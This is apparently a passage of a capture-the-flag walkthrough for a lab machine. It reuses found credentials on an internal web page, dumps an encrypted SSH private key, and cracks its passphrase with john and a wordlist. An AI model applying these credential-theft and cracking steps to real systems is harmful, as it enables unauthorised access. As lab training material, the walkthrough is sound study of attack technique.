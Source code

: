 ```


Last login: Thu Jan  2 20:50:03 2020 from 10.10.14.3
jimmy@openadmin:~$

```
We should be able to access the website now through our browser at **http://127.0.0.1:52846/**. 
We can try to login using the credentials we found earlier: (jimmy:Revealed). 
Here's the output:

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,2AF25344B8391A25A9B318F3FD767D6D

kG0UYIcGyaxupjQqaS2e1HqbhwRLlNctW2HfJeaKUjWZH4usiD9AtTnIKVUOpZN8
ad/StMWJ+MkQ5MnAMJglQeUbRxcBP6++Hh251jMcg8ygYcx1UMD03ZjaRuwcf0YO
ShNbbx8Euvr2agjbF+ytimDyWhoJXU+UpTD58L+SIsZzal9U8f+Txhgq9K2KQHBE
6xaubNKhDJKs/6YJVEHtYyFbYSbtYt4lsoAyM8w+pTPVa3LRWnGykVR5g79b7lsJ
ZnEPK07fJk8JCdb0wPnLNy9LsyNxXRfV3tX4MRcjOXYZnG2Gv8KEIeIXzNiD5/Du
y8byJ/3I3/EsqHphIHgD3UfvHy9naXc/nLUup7s0+WAZ4AUx/MJnJV2nN8o69JyI
9z7V9E4q/aKCh/xpJmYLj7AmdVd4DlO0ByVdy0SJkRXFaAiSVNQJY8hRHzSS7+k4
piC96HnJU+Z8+1XbvzR93Wd3klRMO7EesIQ5KKNNU8PpT+0lv/dEVEppvIDE/8h/
/U1cPvX9Aci0EUys3naB6pVW8i/IY9B6Dx6W4JnnSUFsyhR63WNusk9QgvkiTikH
40ZNca5xHPij8hvUR2v5jGM/8bvr/7QtJFRCmMkYp7FMUB0sQ1NLhCjTTVAFN/AZ
fnWkJ5u+To0qzuPBWGpZsoZx5AbA4Xi00pqqekeLAli95mKKPecjUgpm+wsx8epb
9FtpP4aNR8LYlpKSDiiYzNiXEMQiJ9MSk9na10B5FFPsjr+yYEfMylPgogDpES80
X1VZ+N7S8ZP+7djB22vQ+/pUQap3PdXEpg3v6S4bfXkYKvFkcocqs8IivdK1+UFg
S33lgrCM4/ZjXYP2bpuE5v6dPq+hZvnmKkzcmT1C7YwK1XEyBan8flvIey/ur/4F
FnonsEl16TZvolSt9RH/19B7wfUHXXCyp9sG8iJGklZvteiJDG45A4eHhz8hxSzh
Th5w5guPynFv610HJ6wcNVz2MyJsmTyi8WuVxZs8wxrH9kEzXYD/GtPmcviGCexa
RTKYbgVn4WkJQYncyC0R1Gv3O8bEigX4SYKqIitMDnixjM6xU0URbnT1+8VdQH7Z
uhJVn1fzdRKZhWWlT+d+oqIiSrvd6nWhttoJrjrAQ7YWGAm2MBdGA/MxlYJ9FNDr
1kxuSODQNGtGnWZPieLvDkwotqZKzdOg7fimGRWiRv6yXo5ps3EJFuSU1fSCv2q2
XGdfc8ObLC7s3KZwkYjG82tjMZU+P5PifJh6N0PqpxUCxDqAfY+RzcTcM/SLhS79
yPzCZH8uWIrjaNaZmDSPC/z+bWWJKuu4Y1GCXCqkWvwuaGmYeEnXDOxGupUchkrM
+4R21WQ+eSaULd2PDzLClmYrplnpmbD7C7/ee6KDTl7JMdV25DM9a16JYOneRtMt
qlNgzj0Na4ZNMyRAHEl1SF8a72umGO2xLWebDoYf5VSSSZYtCNJdwt3lF7I8+adt
z0glMMmjR2L5c2HdlTUt5MgiY8+qkHlsL6M91c4diJoEXVh+8YpblAoogOHHBlQe
K1I1cqiDbVE/bmiERK+G4rqa0t7VQN6t2VWetWrGb+Ahw/iMKhpITWLWApA3k9EN
-----END RSA PRIVATE KEY-----

Don't forget your "ninja" password
Click here to logout Session 
```
We have an RSA key! 

We can decrypt it by using john, after generating a hash using ssh2john.py:
```
john --wordlist=/usr/share/wordlists/rockyou.txt --format=ssh id_rsa_jo  
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
bloodninjas      (/home/user/keyjo)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:03 DONE (2021-09-24 16:49) 0.2695g/s 3865Kp/s 3865Kc/s 3865KC/sa6_123..*7¡Vamos!
Session completed

```
We can finally SSH with the key and the passphrase. 